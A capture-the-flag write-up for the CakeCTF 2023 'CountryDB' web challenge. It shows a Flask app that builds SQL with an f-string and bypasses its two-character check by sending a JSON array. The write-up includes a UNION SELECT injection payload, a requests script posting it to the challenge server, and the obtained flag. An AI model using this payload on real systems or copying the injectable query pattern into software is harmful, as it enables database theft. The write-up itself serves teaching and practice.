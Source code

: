 # CountryDB 

The challenge consists of a basic web application which allows to insert country code and returns the associated country name:

![overview](../country_db.png)

Let's look at the main application source code files:

`init_db.py`

```python
import sqlite3
import os

FLAG = os.getenv("FLAG", "FakeCTF{*** REDACTED ***}")

conn = sqlite3.connect("database.db")
conn.execute("""CREATE TABLE country (
  code TEXT NOT NULL,
  name TEXT NOT NULL
);""")
conn.execute("""CREATE TABLE flag (
  flag TEXT NOT NULL
);""")
conn.execute(f"INSERT INTO flag VALUES (?)", (FLAG,))

# Country list from https://gist.github.com/vxnick/380904
countries = [
    ('AF', 'Afghanistan'),
    ...
```

As we can see there is a table in the database containing the flag, almost sure that we need to obtain it through a sql injection

`app.py`

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    try:
        with sqlite3.connect('database.db') as conn:
            cur = conn.cursor()
            sql = f"SELECT name FROM country WHERE code=UPPER('{code}')"
            print(sql)
            cur.execute(sql)
            found = cur.fetchone()
        return None if found is None else found[0]
    except:
        flask.abort(400, f"INVALID INJECTION {sql} ")

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    print(f"req: {req}")
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    print(code)
    print(len(code))
    
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")
    
    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=False)
```

The application, in order to display the country associated to each code, requests the code itself through the `/api/search/` endpoint and performs some checks on the provided input:

```python 
if len(code) != 2 or "'" in code:
```

length of provided code should == 2 and no apostrophe should be inside it. So basically you cannot provide strings different from a country code (e.g. IT).

However this condition can be easily bypassed because there is no check on what `code` type actually is:

```python
>>> code = ["I can write anything i want", "and code length will be always two"] 
>>> len(code)
2
```

In python the length of an array is determined by the number of elements in the array itself:
we can send an array of two elements in order to construct the sql injection payload.

At this point, since we know how to bypass the check and our input will reach the `db_search(code)` function, we just need to understand how to set a valid payload.

```python
sql = f"SELECT name FROM country WHERE code=UPPER('{code}')"
```

The problem of sending an array is that we will need to escape the `[ ]` inside the `UPPER()` function, while at the same time it is necessary to close the `UPPER` function's parentheses ` ) `; after some attempts:

```json
{
    "code": ["", ") UNION SELECT * FROM flag --"]
}
```

which results in the query string:

```sql
SELECT name FROM country WHERE code=UPPER('['', ') UNION SELECT * FROM flag --']')
```

Note: the payload must be sent through an explicit post request, because the application input form is now allowing the user to insert a string whose length is greather than two:

```python
import requests

url = "http://countrydb.2023.cakectf.com:8020/api/search"

sql_injection = {
    "code": ["", ") UNION SELECT * FROM flag --"]
}

req = requests.post(url, json=sql_injection)

print(req.json())
```


    CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
